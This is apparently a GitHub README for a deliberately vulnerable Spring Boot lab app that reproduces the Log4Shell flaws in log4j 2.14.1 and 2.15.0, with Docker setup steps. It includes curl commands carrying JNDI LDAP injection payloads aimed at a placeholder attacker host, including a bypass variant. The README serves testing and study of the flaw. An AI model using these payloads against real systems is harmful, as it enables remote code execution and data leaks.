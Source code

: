 # Log4Shell sample vulnerable application

This repository contains Spring Boot web applications vulnerable to [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/).


# Variants
## cve-2021-44228 (log4j-core: 2.14.1)
* JDK: openjdk:8u312-jdk-slim
* SpringLog4J: org.springframework.boot:spring-boot-starter-log4j2:2.6.1 (https://mvnrepository.com/artifact/org.springframework.boot/spring-boot-starter-log4j2/2.6.1)
* log4j-core: 2.14.1

Run it:
```bash
sudo docker run -p 8000:8080 --rm ghcr.io/denniskniep/vulnerable-app-log4shell-2.14.1:latest
```

Build it yourself:
```bash
cd log4j-2.14.1
sudo docker build -t vulnerable-app-log4shell-2.14.1 .
sudo docker run -p 8000:8080 --name vulnerable-app-log4shell-2.14.1 --rm vulnerable-app-log4shell-2.14.1
```

Trigger the vulnerability using:

```bash
curl 127.0.0.1:8000 -H 'X-Api-Version: ${jndi:ldap://your-private-ip.com/abc}'
```

## cve-2021-45046 (log4j-core: 2.15.0)
https://www.whitesourcesoftware.com/resources/blog/log4j-vulnerability-cve-2021-45046/


* JDK: openjdk:8u312-jdk-slim
* SpringLog4J: org.springframework.boot:spring-boot-starter-log4j2:2.6.1 (https://mvnrepository.com/artifact/org.springframework.boot/spring-boot-starter-log4j2/2.6.1)
* log4j-core: 2.15.0

Run it:
```bash
sudo docker run -p 8000:8080 --rm ghcr.io/denniskniep/vulnerable-app-log4shell-2.15.0:latest
```

Build it yourself:
```bash
cd log4j-2.15.0
sudo docker build -t vulnerable-app-log4shell-2.15.0 .
sudo docker run -p 8000:8080 --name vulnerable-app-log4shell-2.15.0 --rm vulnerable-app-log4shell-2.15.0
```

Does not work anymore:
```bash
curl 127.0.0.1:8000/old -H 'X-Api-Version: ${jndi:ldap://your-private-ip.com/abc}'
```

Trigger the vulnerability using:
```bash
curl 127.0.0.1:8000 -H 'X-Api-Version: ${jndi:ldap://127.0.0.1#your-private-ip.com/abc}'
```

Why this works: https://twitter.com/marcioalm/status/1471742744347348997


When the logging configuration uses a non-default Pattern Layout with a Context Lookup (for example, $${ctx:loginId}), attackers with control over Thread Context Map (MDC) input data can craft malicious input data using a JNDI Lookup pattern, resulting in an information leak and remote code execution in some environments and local code execution in all environments; remote code execution has been demonstrated on MacOS, Fedora, Arch Linux, and **Alpine Linux**.
https://logging.apache.org/log4j/2.x/security.html

## Forked from
https://github.com/christophetd/log4shell-vulnerable-app

thanks to

[@christophetd](https://twitter.com/christophetd)
[@rayhan0x01](https://twitter.com/rayhan0x01)
